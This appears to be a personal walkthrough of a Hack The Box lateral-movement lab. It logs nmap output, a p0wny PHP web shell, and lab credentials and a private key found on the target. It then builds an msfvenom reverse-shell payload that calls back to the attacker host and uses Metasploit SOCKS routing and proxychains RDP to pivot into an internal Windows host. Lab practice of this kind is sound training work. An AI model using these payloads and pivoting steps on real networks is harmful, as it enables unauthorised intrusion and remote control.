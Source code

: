 Target IP
```go
10.129.229.129
```

## NMAP COMMAND
```go
nmap -sV -sC -A 10.129.229.129
```

Open ports
```go
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
```

```go
80/tcp open  http    Apache httpd 2.4.41
```

## Investigate NMAP output

NMAP output reveals the http-title to be `p0wny@shell`? 
```go
Nmap scan report for 10.129.229.129
Host is up (0.020s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: p0wny@shell:~#
```

- Found on [GitHub](https://github.com/flozz/p0wny-shell), it's revealed to be a PHP shell.
- Web browser shows available via the browser
- Enumerating the directories, there are two user directories: `administrator` and `webadmin`, though only `webadmin` is available to us

>[!success] Enumerating the directories there is a note in `/home/webadmin/for-admin-eyes-only` stating the credentials needed to access server01 and other servers in the subnet

![[Pasted image 20241229165238.png]]

==Credential discovery #1==
^first-creds
Creds found for `server01` 
username ^325593
```
mlefay
```

password
```
Plain Human work!
```

#### p0wnyshell default creds found in script
![[p0wnyshell_creds.png]]

==Credential Discovery #2==
^second-creds
username
```go
p0wny
```
password
```go
shell
```

#### private_key found
Found the private key and it is readable!
![[HTB Field Manual/5-Lateral Movement/Skill Assessment/screenshots/private_key.png]]

## Pivot Host Compromise

- Copy the contents of the private key into `id_rsa`
- SSH into the web server with the private key and the `webadmin` username

SSH into the webserver
```go
ssh -i ~/.ssh/target_pvt_key webadmin@10.129.229.129
```

Ping sweep 
```go
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

IP of second host found 
```
172.16.5.35
```
![[host_discovery2.png]]

Generate msfvenom payload
```go
bundle exec msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.15.37 -f elf -o backupjob LPORT=8080
```

Copy backupjob to webadmin server
```go
scp -i ~/.ssh/target_pvt_key backupjob webadmin@10.129.229.129:/tmp
```

Configure the metasploit reverse_tcp payload
```go
use exploit/multi/handler
```

```go
set lhost 0.0.0.0
```

```go
set lport 8080
```

```go
set payload linux/x64/meterpreter/reverse_tcp
```

```go
run
```

Execute the `backupjob` payload on the pivot host, the meterpreter session will be established on the attack host.
![[initial_meterpreter_session.png]]

REMINDER
>[! Important] Second Host IP is 172.16.5.35

Facts:
- There is no route from my attack host to this internal subnet
- The pivot host has access to both the 172.16.5.0/23 range and the the 10.0.0.0/8 range
- I need to establish a proxy on the attack host so that I can reach the 172.16.5.35 machine

### Configure MSF's SOCKS Proxy

>[! Warning] Before proceeding, ensure the line `socks4  127.0.0.1 9050` is present in `/etc/proxychains.conf`

Background the current mfs6 sessions with the `bg` command, then execute the following:

```go
use auxiliary/server/socks_proxy
```

```go
set SRVPORT 9050
```

```go
set SRVHOST 0.0.0.0
```

```go
set version 4a
```

```go
run
```

The msf6 socks_proxy module must route all traffic via the meterpreter session. Use the `post/multi/manage/autoroute` module to add routes for `172.16.5.0`

### Adding routes via AutoRoute Metasploit module

```go
use post/multi/manage/autoroute
```

```go
set SESSION 1
```

```go
set SUBNET 172.16.5.0
```

```go
run
```

After executing the run command, you should see output same as the below:
```go
msf6 post(multi/manage/autoroute) > run

[*] Running module against inlanefreight.local
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.0.0/255.255.0.0 from host's routing table.
[*] Post module execution completed
```

If doing from the Meterpreter session...
```go
run autoroute -s 172.16.5.0/23
```

Scanning internal target 172.16.5.35 via proxychains
```go
proxychains nmap 172.16.5.35 -p3389 -sT -v -Pn
```

Output:
```go
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/aarch64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-30 12:55 EST
Initiating Parallel DNS resolution of 1 host. at 12:55
Completed Parallel DNS resolution of 1 host. at 12:55, 0.03s elapsed
Initiating Connect Scan at 12:55
Scanning 172.16.5.35 [1 port]
Completed Connect Scan at 12:56, 2.00s elapsed (1 total ports)
Nmap scan report for 172.16.5.35
Host is up.

PORT     STATE    SERVICE
3389/tcp filtered ms-wbt-server

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.05 seconds
```

This shows port 3389 is filtered. Attempt a remote session to the Windows target via xfreerdp

RDP into Windows target using the creds from [[#^325593 | first creds found]] 
```go
proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:Plain Human work!
```

Flag Acquired
```go
S1ngl3-Piv07-3@sy-Day
```
![[HTB Field Manual/5-Lateral Movement/Skill Assessment/screenshots/flag.png]]

